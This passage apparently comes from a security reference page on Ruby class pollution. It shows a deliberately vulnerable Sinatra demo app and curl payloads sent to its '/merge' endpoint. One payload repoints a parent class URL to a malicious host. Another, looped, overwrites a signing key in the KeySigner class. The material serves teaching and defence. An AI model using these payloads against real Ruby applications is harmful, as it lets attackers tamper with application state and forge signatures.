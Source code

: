 ```
  # GET /sign_with_subclass_key - Signs data using the signing key stored in KeySigner
  get '/sign_with_subclass_key' do
    content_type :json

    # This gadget signs data using the signing key stored in KeySigner class
    signer = KeySigner.new
    signed_data = signer.sign(KeySigner.signing_key, "data-to-sign")

    { status: 'Data signed', signing_key: KeySigner.signing_key, signed_data: signed_data }.to_json
  end

  # Curl command to infect KeySigner signing key (run in a loop until successful):
  # for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge; done

  # GET /check-infected-vars - Check if all variables have been infected
  get '/check-infected-vars' do
    content_type :json

    {
      user_url: Person.url,
      signing_key: KeySigner.signing_key
    }.to_json
  end

  run! if app_file == $0
end
```
```
### Poison Parent Class

With this payload:

```bash
curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"url":"http://malicious.com"}}}' http://localhost:4567/merge
```
```
It's possible to modify the value of the **`@@url`** attribute of the parent class **`Person`**.

### **Poisoning Other Classes**

With this payload:

```bash
for i in {1..1000}; do curl -X POST -H "Content-Type: application/json" -d '{"class":{"superclass":{"superclass":{"subclasses":{"sample":{"signing_key":"injected-signing-key"}}}}}}' http://localhost:4567/merge --silent > /dev/null; done
```
```
It's possible to brute-force the defined classes and at some point poison the class **`KeySigner`** modifying the value of `signing_key` by `injected-signing-key`.\

## References

- [[https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html|https://blog.doyensec.com/2024/10/02/class-pollution-ruby.html]]



